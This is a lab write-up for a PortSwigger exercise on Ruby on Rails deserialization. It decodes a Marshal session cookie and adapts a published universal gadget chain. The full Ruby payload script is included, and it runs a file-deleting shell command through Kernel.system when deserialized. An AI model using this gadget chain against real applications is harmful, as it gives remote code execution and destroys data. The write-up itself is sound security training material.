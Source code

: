 # Exploiting Ruby deserialization using a documented gadget chain | Jan 12, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain), you'll learn: Exploiting Ruby deserialization using a documented gadget chain! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112141522.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112141533.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112141548.png)

**When we successfully logged in, it'll set a new session cookie:**
```
BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVzNTh0b2t0NHZ1NDVmNWRqcHdheDFxajVqMXF4YXpwMAY7B0YK
```

**It seems like it's encoded in base64. Let's decode that:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 14:18:33
╰─○ echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVzNTh0b2t0NHZ1NDVmNWRqcHdheDFxajVqMXF4YXpwMAY7B0YK' | base64 -d | xxd
00000000: 0408 6f3a 0955 7365 7207 3a0e 4075 7365  ..o:.User.:.@use
00000010: 726e 616d 6549 220b 7769 656e 6572 063a  rnameI".wiener.:
00000020: 0645 463a 1240 6163 6365 7373 5f74 6f6b  .EF:.@access_tok
00000030: 656e 4922 2573 3538 746f 6b74 3476 7534  enI"%s58tokt4vu4
00000040: 3566 3564 6a70 7761 7831 716a 356a 3171  5f5djpwax1qj5j1q
00000050: 7861 7a70 3006 3b07 460a                 xazp0.;.F.
```

As you can see, the decoded output is a **ruby serialized object**.

**It contains object `User`, attribute 1 `username`, and attribute 2 `access_token`.**

**Let's google "ruby deserialization gadget chain":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112144048.png)

**In this [blog](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html), it explained how to construct Ruby deserialization gadget chains very well, I strongly recommend you read through all of it.**

**Also, it has a Ruby script that generates a Ruby serialized object gadget chain payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112144142.png)

**In here, we need to change the `id` OS command to `rm /home/carlos/morale.txt`, and base64 encode the output:**
```ruby
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

**Run that payload in [Ruby online compiler](https://www.tutorialspoint.com/execute_ruby_online.php):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112152930.png)

**Copy the output and paste it to the session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112152947.png)

**Finally, refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112152959.png)

Nice!

# What we've learned:

1. Exploiting Ruby deserialization using a documented gadget chain